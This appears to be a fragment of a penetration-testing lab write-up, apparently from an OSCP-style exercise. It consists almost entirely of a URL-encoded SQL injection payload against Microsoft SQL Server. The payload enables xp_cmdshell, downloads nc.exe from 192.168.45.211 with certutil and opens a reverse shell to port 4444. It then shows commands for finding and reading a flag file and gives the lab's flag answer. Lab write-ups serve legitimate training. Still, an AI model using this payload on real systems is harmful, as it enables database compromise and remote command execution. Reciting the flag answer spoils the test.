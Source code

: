 ```sql
-- Encoded
%27%3B%20WAITFOR%20delay%20%270%3A0%3A10%27%3B%20EXEC%20sp_configure%20%22show%20advanced%20options%22%2C1%3B%20RECONFIGURE%3B%20EXEC%20sp_configure%20%22xp_cmdshell%22%2C1%3B%20RECONFIGURE%3B%20EXEC%20xp_cmdshell%20%22certutil%20-urlcache%20-f%20http%3A%2F%2F192.168.45.211%2Fnc.exe%20c%3A%2Fwindows%2Ftemp%2Fnc.exe%22%3B%20EXEC%20xp_cmdshell%20%22c%3A%2Fwindows%2Ftemp%2Fnc.exe%20-c%20192.168.45.211%20-p%204444%20-e%20cmd.exe%22%3B--%20%2F%2F
```

- In nc listener
```powershell
cd C:\
dir /s flag.txt
type C:\inetpub\wwwroot\flag.txt
```

> Answer:  OS{67ca0eacbdb181c024335575a90602c1}